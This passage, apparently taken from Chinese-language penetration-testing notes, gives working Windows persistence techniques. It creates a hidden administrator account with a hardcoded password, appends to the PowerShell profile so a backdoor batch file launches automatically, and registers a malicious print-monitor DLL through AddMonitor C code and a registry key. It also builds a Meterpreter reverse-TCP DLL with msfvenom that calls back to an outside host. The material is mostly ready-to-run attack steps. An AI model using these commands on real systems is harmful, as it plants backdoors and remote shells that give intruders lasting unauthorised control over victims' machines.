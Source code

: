 ```
net user qianxin$ QanXin.Nb123 /add & net localgroup administrators qianxin$ /add
```

1. 这里的C:\1.bat是我的后门文件位置

```
$string = 'Start-Process "C:\1.bat"'
$string | Out-File -FilePath $profile -Append
more $profile
```

1. 重新打开powershell就会自动执行,创建账户
2. 如果失败，则以管理员权限打开powershell运行set-ExecutionPolicy RemoteSigned并摁回车即可

### 打印机(Monitors)权限维持

项目地址 https://github.com/Al1ex/Monitor

1. 项目下载下来，自己编译也可以，也可以用现成的

```
#include "Windows.h"
int main() {
MONITOR_INFO_2 monitorInfo;
TCHAR env[12] = TEXT("Windows x64");
TCHAR name[12] = TEXT("Monitor");
TCHAR dll[12] = TEXT("test.dll");
monitorInfo.pName = name;
monitorInfo.pEnvironment = env;
monitorInfo.pDLLName = dll;
AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
return 0;
}
```

pName //监视器名称 pEnvironment //环境架构 pDLLName //监视器DLL文件的名称

1. msf生成dll `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.188.129 LPORT=4444 -f dll > shell.dll`
2. 将shell.dll复制到目标主机的system32目录下，之后重命名为test.dll(也就是上面的 PDLLName，你也可以自己修改为自己喜欢的，总之随意) `copy C:\temp\shell.dll C:\Windows\System32\test.dll`
3. 将Monitors.exe也移动到C:\Windows\System32，这是执行Monitors.exe即可反弹shell
4. `reg add "hklm\system\currentcontrolset\control\print\monitors\Pentestlab" /v "Driver" /d "test.dll" /t REG_SZ`    //塞到开机启动项里 